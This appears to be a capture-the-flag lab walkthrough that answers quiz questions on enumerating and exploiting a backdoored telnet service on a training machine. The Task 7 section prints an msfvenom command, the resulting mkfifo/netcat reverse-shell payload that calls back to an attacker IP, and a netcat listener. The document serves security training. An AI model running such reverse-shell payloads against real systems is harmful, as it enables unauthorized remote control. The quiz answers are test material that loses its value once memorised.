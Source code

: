 -  How many **ports** are open on the target machine?	``1``
- What **port** is this?	``8012``
- This port is unassigned, but still lists the **protocol** it's using, what protocol is this?	``tcp``
- Now re-run the **nmap** scan, without the **-p-** tag, how many ports show up as open?	``0``
- Based on the title returned to us, what do we think this port could be **used for**? 	``a backdoor``
- Who could it belong to? Gathering possible **usernames** is an important step in enumeration.	``skidy``

## Task 7: Exploiting Telnet
````
❯ telnet 10.10.17.203 8012
Trying 10.10.17.203...
Connected to 10.10.17.203.
Escape character is '^]'.
SKIDY'S BACKDOOR. Type .HELP to view commands
ls 
.HELP
.HELP: View commands
 .RUN <command>: Execute commands
.EXIT: Exit

````
- Okay, let's try and connect to this telnet port! If you get stuck, have a look at the syntax for connecting outlined above.	``No answer needed``
- Great! It's an open telnet connection! What welcome message do we receive? ``SKIDY'S BACKDOOR.``
- Let's try executing some commands, do we get a return on any input we enter into the telnet session? (Y/N)	``y``
- Hmm... that's strange. Let's check to see if what we're typing is being executed as a system command. ``No answer needed``  
``.RUN ls`` --> doesn't output anything

- This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.	``No answer needed``
-   Now, use the command **"ping [local THM ip] -c 1"** through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)	``y``
````
.RUN icmp -i eth0
-------------------------------------------------------------------------
❯ tcpdump -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
06:36:08.801617 IP kali.53430 > 10.10.17.203.8012: Flags [P.], seq 4120330186:4120330205, ack 1028418728, win 502, options [nop,nop,TS val 851729200 ecr 2962480327], length 19
06:36:08.838120 IP 10.10.17.203.8012 > kali.53430: Flags [.], ack 19, win 490, options [nop,nop,TS val 2962637955 ecr 851729200], length 0
````

- Great! This means that we are able to execute system commands AND that we are able to reach our local machine. Now let's have some fun!	``No answer needed``
- What word does the generated payload start with? 	``mkfifo``
````
❯ msfvenom -p cmd/unix/reverse_netcat lhost=10.11.38.54 lport=4444 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 97 bytes
mkfifo /tmp/xoerbw; nc 10.11.38.54 4444 0</tmp/xoerbw | /bin/sh >/tmp/xoerbw 2>&1; rm /tmp/xoerbw
````
- What would the command look like for the listening port we selected in our payload?	``nc -lvp 4444``